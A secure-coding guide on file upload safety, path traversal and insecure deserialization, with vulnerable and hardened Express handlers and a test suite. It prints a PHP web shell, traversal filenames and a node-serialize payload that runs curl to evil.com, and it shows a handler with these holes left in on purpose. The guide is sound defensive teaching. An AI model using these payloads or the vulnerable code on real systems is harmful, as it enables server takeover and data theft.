

# 📁 File Uploads, Path Traversal & Deserialization Defense

> The master engineering guide to safe file ingestion and data serialization: Magic byte inspection, presigned cloud storage (S3/GCS), Zip Bomb mitigation, and neutralizing insecure deserialization RCEs.

---

## 1. 🎯 Overview & Intuitive Mental Model

### The Production Hook
Allowing users to upload files (avatars, PDFs, CSV imports, invoices) or accepting serialized objects is one of the highest-risk capabilities in web architecture. When an application accepts a file, it invites untrusted binary data directly onto the server's filesystem or storage perimeter.

A failure in file validation can lead to **instant Remote Code Execution (RCE)**:
- An attacker uploads an executable shell script disguised as a profile picture (`shell.php` or `exploit.phtml`) into an executable web directory.
- An attacker uses directory traversal (`../../etc/cron.d/malicious`) to overwrite system configuration files.
- An attacker uploads a **Zip Bomb** (a 42 KB archive that decompresses into 4.5 Petabytes), exhausting server disk and crashing the host.
- Insecure deserialization (e.g. `node-serialize` or Python `pickle`) allows arbitrary object prototype manipulation and command execution.

### 🧠 The Fun Analogy: The "Hazmat Bio-Lab Air Lock"
- **Vulnerable System (The Open Mailroom):** A citizen walks up to the government mailroom with an uninspected wooden crate labeled *"Fresh Strawberries"* (MIME type: `image/jpeg`). The clerk blindly puts it in the kitchen. Inside the crate is an active hornet nest (executable PHP shell).
- **Hardened System (The Hazmat Air Lock):**
  1. **Never Trust the Label:** Inspect the physical atoms using high-resolution X-rays (inspecting file magic numbers / byte headers, not extensions or client MIME headers).
  2. **Quarantine & De-Fang:** Disarm the package by re-encoding it (e.g., stripping EXIF metadata and re-encoding images via Sharp/libvips).
  3. **Isolated Safe Storage (S3 Presigned URLs):** The package is never allowed inside the government office building at all! The sender is directed to drop it in a remote, non-executable concrete bunker out in the desert (`S3 private bucket with public execute disabled`), accessible only through a cryptographic one-time delivery pass (Presigned URL).
  4. **Rename Everything:** Strip the original filename completely; rename it to a randomized UUID.

### Severity & Impact
- **OWASP Category:** [A03:2021 – Injection](https://owasp.org/Top10/A03_2021-Injection/), [A08:2021 – Software and Data Integrity Failures](https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/)
- **Common Weakness Enumeration (CWE):**
  - **CWE-434:** Unrestricted Upload of File with Dangerous Type
  - **CWE-22:** Improper Limitation of a Pathname to a Restricted Directory (Path Traversal)
  - **CWE-502:** Deserialization of Untrusted Data
  - **CWE-409:** Improper Handling of Highly Compressed Data (Zip Bomb)
- **Blast Radius:** Complete server host compromise (RCE), arbitrary file read/write, cloud bucket compromise, denial of service via disk exhaustion.

---

## 2. 🎨 Interactive Visual Architecture



> 💡 **Visual Inspection Tip:** In Chrome DevTools, inspect the **Network** tab when uploading files. Look at the `Content-Type` header: notice that `image/png` is sent by the client and can be trivial modified in Burp Suite or curl. A secure API will never trust the client's `Content-Type` or the original filename (`file.name`).

---

## 3. 💥 Real-World Exploit Walkthrough

### Scenario: Path Traversal & Unchecked Upload Leading to Remote Shell
An Express server implemented a profile picture upload handler using `multer`. The developer saved the file directly to the local disk using the user-provided filename and served static files from the same directory.

#### ❌ Vulnerable Route Handler (Node.js / Express / Multer)
```typescript
// vulnerable-upload.ts
import express from 'express';
import multer from 'multer';
import path from 'path';
import fs from 'fs';

const app = express();

// ⚠️ CATASTROPHIC FLAW 1: Preserving original filename leads to Path Traversal!
// ⚠️ CATASTROPHIC FLAW 2: Saving files in an executable public web root!
const storage = multer.diskStorage({
  destination: (req, file, cb) => cb(null, './public/uploads/'),
  filename: (req, file, cb) => {
    // Preserves attacker's filename: e.g. "../../etc/cron.d/backdoor"
    cb(null, file.originalname);
  }
});

const upload = multer({ storage });

// ⚠️ FLAW 3: Insecure Deserialization of user session state
app.post('/api/profile/restore-session', express.text(), (req, res) => {
  // node-serialize.unserialize() allows arbitrary JavaScript execution via IIFE!
  const serialize = require('node-serialize');
  const session = serialize.unserialize(req.body);
  res.json({ status: 'Restored', user: session.username });
});

app.post('/api/upload-avatar', upload.single('avatar'), (req, res) => {
  res.json({ url: `/uploads/${req.file?.originalname}` });
});
```

#### 💥 The Attacker's Exploit Payloads
1. **The Path Traversal RCE Payload:**
   The attacker uploads a file with `filename: "../../../var/www/html/shell.php"` containing:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
   The file escapes the `uploads` directory and is saved into the PHP execution directory, granting immediate shell execution via `https://victim.com/shell.php?cmd=id`.

2. **The Insecure Deserialization RCE Payload:**
   The attacker crafts an Immediately Invoked Function Expression (IIFE) payload:
   ```json
   {"rce":"_$$ND_FUNC$$_function (){ require('child_process').execSync('curl https://evil.com/leak'); }()"}
   ```
   When `node-serialize.unserialize()` executes, the child process runs immediately!

---

## 4. 🛡️ Resolution & Defense-in-Depth

### Hardened Production File Ingestion Pipeline
```typescript
// hardened-upload.ts - DEFENSE-IN-DEPTH FILE SECURITY
import express, { Request, Response } from 'express';
import multer from 'multer';
import { fileTypeFromBuffer } from 'file-type';
import crypto from 'crypto';
import path from 'path';

const app = express();

// 🛡️ 1. In-Memory Upload Buffer with Strict Size Bounds (Max 5 MB)
const upload = multer({
  storage: multer.memoryStorage(),
  limits: {
    fileSize: 5 * 1024 * 1024, // 5 MB hard limit
    files: 1,                  // Max 1 file per request
  },
});

// Strict Allowlist of Accepted MIME types and Extensions
const ALLOWED_MIME_TYPES = new Set(['image/jpeg', 'image/png', 'image/webp']);

app.post('/api/upload-avatar', upload.single('avatar'), async (req: Request, res: Response) => {
  if (!req.file) {
    return res.status(400).json({ error: 'No file uploaded' });
  }

  const fileBuffer = req.file.buffer;

  // 🛡️ 2. Inspect Magic Bytes / File Header Signatures (NEVER trust req.file.mimetype!)
  const detectedType = await fileTypeFromBuffer(fileBuffer);

  if (!detectedType || !ALLOWED_MIME_TYPES.has(detectedType.mime)) {
    return res.status(400).json({
      error: 'Invalid file format. Only authentic JPEG, PNG, and WebP images are permitted.',
    });
  }

  // 🛡️ 3. Strip Original Filename Completely -> Assign Cryptographic UUID
  const randomFileName = `${crypto.randomUUID()}.${detectedType.ext}`;

  // 🛡️ 4. Sanitize Storage Path: Force upload outside web root into private object store
  console.log(`[SECURE UPLOAD] Storing verified file as: ${randomFileName} (Detected MIME: ${detectedType.mime})`);

  // In production, stream buffer directly to private AWS S3 / GCP GCS bucket:
  // await s3.putObject({ Bucket: 'private-user-media', Key: randomFileName, Body: fileBuffer, ContentType: detectedType.mime });

  res.status(200).json({
    status: 'success',
    fileName: randomFileName,
    mimeType: detectedType.mime,
  });
});

export default app;
```

### Safe Serialization Rules
- **Ban Native Deserialization:** Never use `eval()`, `node-serialize`, Python `pickle`, or Java `ObjectInputStream` on untrusted client inputs.
- **Enforce Strict JSON + Schemas:** Use `JSON.parse()` strictly paired with schema validators like **Zod** or **TypeBox**.
- **Use Protocol Buffers (Protobuf):** For microservices, use strongly-typed binary formats where payloads are strictly deserialized into rigid schemas.

---

## 5. 🧪 Hands-On Verification & Lab

### Automated File Type Spoofing Test (Supertest)
```typescript
// upload-security.test.ts
import request from 'supertest';
import app from './hardened-upload';

describe('File Upload Security Suite', () => {
  it('rejects an executable PHP shell renamed to image.png using magic byte inspection', async () => {
    // PHP shell disguised with .png extension and fake image/png MIME header
    const fakePngPayload = Buffer.from('<?php system($_GET["cmd"]); ?>');

    const res = await request(app)
      .post('/api/upload-avatar')
      .attach('avatar', fakePngPayload, { filename: 'shell.png', contentType: 'image/png' });

    expect(res.status).toBe(400);
    expect(res.body.error).toContain('Invalid file format');
  });

  it('accepts genuine PNG files matching magic byte signatures', async () => {
    // Genuine 1x1 transparent PNG magic bytes
    const realPngBuffer = Buffer.from([
      0x89, 0x50, 0x4e, 0x47, 0x0d, 0x0a, 0x1a, 0x0a, 0x00, 0x00, 0x00, 0x0d,
      0x49, 0x48, 0x44, 0x52, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x01,
      0x08, 0x06, 0x00, 0x00, 0x00, 0x1f, 0x15, 0xc4, 0x89, 0x00, 0x00, 0x00,
      0x0a, 0x49, 0x44, 0x41, 0x54, 0x78, 0x9c, 0x63, 0x00, 0x01, 0x00, 0x00,
      0x05, 0x00, 0x01, 0x0d, 0x0a, 0x2d, 0xb4, 0x00, 0x00, 0x00, 0x00, 0x49,
      0x45, 0x4e, 0x44, 0xae, 0x42, 0x60, 0x82
    ]);

    const res = await request(app)
      .post('/api/upload-avatar')
      .attach('avatar', realPngBuffer, { filename: 'valid.png', contentType: 'image/png' });

    expect(res.status).toBe(200);
    expect(res.body.mimeType).toBe('image/png');
  });
});
```

---

## 6. 📋 Code Review Checklist

- [ ] **Magic Byte Validation:** Are file types verified by parsing binary headers (`file-type` / `libmagic`), rather than trusting the user's extension or MIME header?
- [ ] **Randomized Filenames:** Are original filenames stripped and replaced with random UUIDs to eliminate path traversal (`../`)?
- [ ] **Non-Executable Storage:** Are uploaded files stored in private cloud storage buckets (S3 / GCS) outside the web server's executable document root?
- [ ] **Strict Size Caps:** Does the upload parser enforce strict byte size limits to prevent disk exhaustion?
- [ ] **No Native Deserialization:** Is arbitrary native deserialization (`pickle`, `node-serialize`) completely absent from the codebase?
- [ ] **Safe Download Headers:** Are user-uploaded files served with `Content-Disposition: attachment` and `X-Content-Type-Options: nosniff`?

---

## 7. 🎥 Curated Video Walkthroughs & Primary References

### 📺 High-Impact Video Explanations
- 🎥 [File Upload Vulnerabilities: Bypassing Restrictions (PortSwigger Academy)](https://www.youtube.com/watch?v=F0O5Q_P6a40) — Live demonstration of executing shells via extension and MIME-type manipulation.
- 🎥 [Insecure Deserialization Explained (PwnFunction)](https://www.youtube.com/watch?v=jwzeJu8R4qg) — Visual animation of how serialized object trees lead to arbitrary code execution.
- 🎥 [Secure File Upload Architecture with S3 Presigned URLs (Hussein Nasser)](https://www.youtube.com/watch?v=yGYe_6eXj48) — Step-by-step engineering tutorial bypassing web server memory and streaming straight to object storage.

### 📖 Primary Documentation & Specifications
- 📜 [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html) — Gold standard upload defense architecture.
- 📜 [OWASP Deserialization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html) — Safe data interchange and parsing guidelines.
- 📜 [AWS S3: Uploading Objects Using Presigned URLs](https://docs.aws.amazon.com/AmazonS3/latest/userguide/PresignedUrlUploadObject.html) — Official AWS guide.

### 🧪 Interactive Hands-On Training Labs
- 🎯 [PortSwigger Lab: Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload) — Practice exploiting unrestricted upload folders.
- 🎯 [PortSwigger Lab: Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal) — Practice uploading shells via `../` traversal.
